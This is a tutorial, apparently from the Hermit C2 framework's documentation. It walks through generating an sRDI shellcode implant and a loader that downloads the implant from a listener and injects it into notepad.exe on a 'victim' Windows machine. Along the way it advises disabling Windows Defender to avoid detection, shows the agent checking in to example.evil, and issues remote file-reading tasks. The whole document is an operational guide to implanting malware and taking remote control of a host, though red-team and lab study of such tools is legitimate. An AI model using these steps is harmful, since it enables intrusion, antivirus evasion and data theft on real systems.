


# Load & Execute Shellcode Implant

This tutorial explains about generating a shellcode implant and load/inject it with a shellcode loader.  
Hermit can do that easily because it has features to generate **sRDI** shellcode.  

Before starting, we assume that you've already done [the tutorial: Simple Implant Beacon](./simple-implant-beacon.md). If not yet, please complete it first.

> IMPORTANT: It's heavily recommended to use **a virtual machine** for Windows victim machine because If we modify the registry etc., the system might not work properly. Also we recommend temporarily turning off real-time protection of **Windows Defender** as it is likely to be detected by Windows Defender.

## 1. Start C2 Server & Start Listener

Maybe we're familiar with these steps already, so proceed easily.

```sh
# 1. Start C2 server
./hermit

# 2. Start new listener
Hermit > listener new
```

## 2. Generate sRDI Shellcode

**sRDI (Shellcode Reflective DLL Injection)** is a technique that converts DLL to position independent shellcode. Please see [the original implementation](https://github.com/monoxgas/sRDI) for details.  
This allows us to generate a shellcode implant with just a few step. Hermit makes that even easier, so just run `payload gen` command as below image:  



In the wizard as image above, choose the following:

```txt
1. What to generate?        -> implant
2. Implant type             -> beacon
3. OS/Arch/Format           -> windows/amd64/bin
4. Listener URL to Connect  -> the listener URL that is created & started in the previous section
```

The rest is optional.  

>IMPORTANT: **Please note that we need to choose `windows/amd64/bin` for `OS/Arch/Format` to generate a shellcode.**

After that, the generated implant is saved under `$HOME/.hermit/server/listeners/https-<listener_name>/payloads/`.  

>IMPORTANT: **Do not move this file because a loader can automatically find and download an implant in the corresponding listener's folder.**  

## 3. Generate Shellcode Loader

Next, we generate a shellcode loader that downloads the generated shellcode implant from a listener and execute it in the victim machine.  
To do so, run `payload gen` command again as below image:



In the wizard as image above, choose the following:

```txt
1. What to generate?                -> loader
2. Loader type                      -> shellcode-loader
3. OS/Arch/Format                   -> windows/amd64/exe
4. Listener URL to Connect          -> the same URL which is choosed in the previous 'payload gen' section.
5. Injection Technique              -> shellcode-injection (here select the most basic technique for tutorial...)
6. Target Process to be Injected    -> empty ('notepad.exe' by default)
```

After that, the generated loader is saved under `$HOME/.hermit/server/listeners/https-<listener_name>/payloads/` just like with the implant.  

**Now transfer this file to Windows victim machine.**  

## 4. Execute Shellcode Loader

### Start Target Process

In the Windows victim machine, we need to open `Notepad` at first because we inject a shellcode implant to a specified process (we've chosen `notepad.exe` in the previouse section).  

```powershell title="Windows Victim Machine"
notepad.exe
```

### Execute Loader

Then execute the loader which was transfered in the previous section.

```powershell title="Windows Victim Machine"
# Replace the filename with your own.
.\shellcode-loader.exe
```

Now the loader will download our shellcode and inject it into the `Notepad` process.  
After a few seconds, see the agent has been checked-in with `agents` command in the Hermit console:

```sh title="Hermit C2 Server Console"
Hermit > agents
[+]
ID  Name         IP           OS/Arch        Hostname  ListenerURL                 ImplantType  CheckIn              SessionID
1   agent-bruce  172.20.32.1  windows/amd64  machine   https://example.evil:65372  beacon       2024-05-30 09:13:38  Zy8ZPj1P0tFw58Bwv8XGZpzfuhZ2Z5P1
```

We could inject a shellcode implant into the target process successfully.  

## 5. Mission Complete!

Congratulations! Now we can do something with a shellcode implant.  

## 6. Try Tasks...

Okay, the purpose of this tutorial has been achieved so we can finish here, but it's a little boring, so let's play around with a few tasks!  
First of all, enter the agent mode:

```sh title="Hermit C2 Server Console"
Hermit > agent use 1
[+] Switched to agent mode.
Hermit [agent-bruce] > 
```

### Task: `pwd`

To print current working directory path, run the following task:

```sh title="Hermit C2 Server Console"
Hermit [agent-bruce] > pwd
```

Then after a few seconds, check the result with `loot show` command.  

### Task: `ls`

To print files in the current directory, run the following task:

```sh title="Hermit C2 Server Console"
Hermit [agent-bruce] > ls
```

### Task: `cat`

To print a specified file contents, run the following task:

```sh title="Hermit C2 Server Console"
Hermit [agent-bruce] > cat example.txt
```

## 7. Stop Implant

As explained in other tutorials, run the `kill` task to terminate the implant.  


